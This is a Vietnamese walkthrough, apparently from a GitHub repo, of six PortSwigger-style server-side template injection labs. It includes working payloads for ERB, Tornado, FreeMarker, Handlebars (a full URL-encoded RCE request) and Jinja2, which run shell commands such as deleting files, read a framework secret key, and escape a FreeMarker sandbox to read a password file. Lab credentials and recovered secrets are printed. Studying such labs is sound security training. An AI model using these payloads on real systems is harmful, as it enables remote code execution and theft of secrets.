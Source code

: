 # 1. Basic server-side template injection
Khi xem product với id=1, nhận thấy message "Unfortunately this product is out of stock" được hiển thị, và url có dụng `/?message=....`. Thử với `/?message=<%=7*7%>` thì phần message hiển thị 49. Như vậy website có lỗi SSTI.

Lab description cho ta biết website sử dụng ERB template, như vậy ta chuyển đến URL `/?message=<%=system("rm /home/carlos/morale.txt")` để xóa file morale.txt. Kết quả thành công.

# 2. Basic server-side template injection (code context)
Website có chức năng "Preferred name", sẽ quyết định tên của user được hiển thị như thế nào trong các comment. Để thay đổi Preferred name, ta submit request: `POST /my-account/change-blog-post-author-display` với hai tham số `blog-post-author-display=user.name&csrf=LVAmsI37Vy62hUbx5riYFHJ5KWBwH6e8`.

Ta submit một comment, thực hiện thay đổi tham số `blog-post-author-display` và test kết quả bằng cách xem thông tin hiển thị trong phần tên người submit comment.

Thay đổi `blog-post-author-display=7*7` => response trả về 49

Thay đổi `blog-post-author-display=a.b` => response trả về lỗi cho ta biết website sử dụng Tornado template

Thay đổi `blog-post-author-display=7*7}}{% import os %}{{os.system('rm /home/carlos/morale.txt')}}` => file được xóa thành công.

# 3. Server-side template injection using documentation
Đăng nhập với credentails "content-manager:C0nt3ntM4n4g3r", ta thấy có chức năng "Edit Template" và có thể Preview sau khi edit. Thử chèn payload `${7*7}` thì trong response có số 49, như vậy website có lỗ hổng SSTI.

Thử chèn `${abc}` thì xuất hiện thông báo lỗi cho ta biết website sử dụng template "freemaker" với ngôn ngữ Java.

![image](https://user-images.githubusercontent.com/103978452/219274969-c5098403-5979-4a8a-aafe-46d20f57f3ba.png)

Sau khi research trên internet, ta tìm được một số payload. Thử chèn `${"freemarker.template.utility.Execute"?new()("id")}` thì kết quả của lệnh id được trả về trong response. Như vậy, để xóa file "morale.txt", ta chèn vào payload `${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}`. Sau khi click Review, bài lab được giải thành công.

# 4. Server-side template injection in an unknown language with a documented exploit
Ta thấy với URL `/?message=abc` thì đoạn text "abc" sẽ được hiển thị trong response. Thử với `{{7*7}}` thì xuất hiện lỗi như sau:

![image](https://user-images.githubusercontent.com/103978452/219276586-6560f565-ba8f-4c84-a7d5-6e4cd0900619.png)

Như vậy ta biết được website sử dụng NodeJs, và sau một số research thì xác định thêm template được sử dụng là "handlebars". Ta tìm được một payload RCE trên Hacktricks như sau:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Thay thế command "whoami" thành "rm /home/carlos/morale.txt", thực hiện URL encoded rồi gán vào tham số "message". Như vậy request như sau:

```
GET /?message=%7b%7b%23with%20"s"%20as%20%7cstring%7c%7d%7d%0d%0a%20%20%7b%7b%23with%20"e"%7d%7d%0d%0a%20%20%20%20%7b%7b%23with%20split%20as%20%7cconslist%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epush%20%28lookup%20string%2esub%20"constructor"%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23with%20string%2esplit%20as%20%7ccodelist%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epush%20"return%20require%28%27child_process%27%29%2eexec%28%27rm%20%2fhome%2fcarlos%2fmorale%2etxt%27%29%3b"%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23each%20conslist%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23with%20%28string%2esub%2eapply%200%20codelist%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7bthis%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2feach%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%7b%7b%2fwith%7d%7d%0d%0a%7b%7b%2fwith%7d%7d
```

Sau khi submit, kết quả thành công.

# 5. Server-side template injection with information disclosure via user-supplied objects
Đăng nhập với credentails "content-manager:C0nt3ntM4n4g3r", ta thấy có chức năng "Edit Template" và có thể Preview sau khi edit. Thử chèn `{{7*7}}` thì xuất hiện thông báo lỗi cho ta biết website sử dụng Django framework. Sau các lần thử, ta dự đoán website sử dụng template là Jinja2.

Như vậy, ta chèn payload `{{settings.SECRET_KEY}}` để lấy thông tin SECRET_KEY. Sau khi click Preview, ta thu được `SECRET_KEY=gdrnh5wqn03818q16twn6vhz8zo28tdd`. Dùng thông tin thu được để submit, kết quả thành công.

# 6. Server-side template injection in a sandboxed environment
Đăng nhập với credentails "content-manager:C0nt3ntM4n4g3r", ta thấy có chức năng "Edit Template" và có thể Preview sau khi edit. Ta thấy một bài post có sử dụng `${product.name}`, ta thử thay thành `${abc}` thì thông báo lỗi hiển thị cho ta biết rằng website sử dụng FreeMarker Template với ngôn ngữ Java.

Thử payload như trong bài lab #3 thì thấy thông báo lỗi "not allowed in the template for security reasons". Website đã chặn một số chức năng để tránh SSTI, tuy nhiên thì ta thấy vẫn truy cập được object `product` như thường.

Sau khi research, ta tìm được một payload đọc file dựa trên việc sử dụng một chuỗi các objects và methods:

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
```

![image](https://user-images.githubusercontent.com/103978452/219292169-12d11c81-8897-4d4d-96d5-f289ad7e7f44.png)

Thay thế "path_to_the_file" thành "/home/carlos/my_password.txt", ta nhận được một chuỗi các số. Chuyển lại thành ký tự theo ASCII, thu được mật khẩu là "ugmfdfbhew2q79m8fu9t". Sử dụng thông tin có được để submit, kết quả thành công.

# 7. Server-side template injection with a custom exploit
